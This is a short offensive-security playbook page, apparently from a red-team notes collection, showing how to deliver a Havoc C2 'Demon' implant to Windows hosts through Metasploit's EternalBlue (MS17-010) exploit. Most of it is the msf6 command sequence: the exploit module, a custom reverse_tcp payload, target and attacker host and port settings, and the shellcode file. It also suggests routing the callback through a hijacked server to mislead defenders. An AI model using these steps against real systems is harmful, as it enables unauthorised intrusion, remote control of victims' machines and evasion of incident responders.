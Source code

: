 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - havoc
  - windows
credits:
  - p4p1
---
```

# Havoc

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

Unlike [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Exploit Outdated Software/Cobalt Strike|cobalt strike]] exploitation setup. This particular payload type only requires a custom generated implant in this case **Havoc's Demon Agent**. We'll be using eternablue as an example.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/custom/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```

Set the target's IP address.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts <target_IP>
```

Specify the C2's IP address and port. The best part about this is you can simply set the custom implant and use any SSH server (or hijacked server) as the only indicator of compromise that the defenders will look at the traces.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost <attacker_IP>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport <attacker_PORT>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set shellcode_file /local/path/to/demon.x64.bin
```

Exploit the target and you should receive an agent callback on your C2.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

---
## References

### p4p1

- [p4p1: Extending Havoc payloads through metasploit](https://leosmith.wtf/blog/metasploit-and-havoc.html)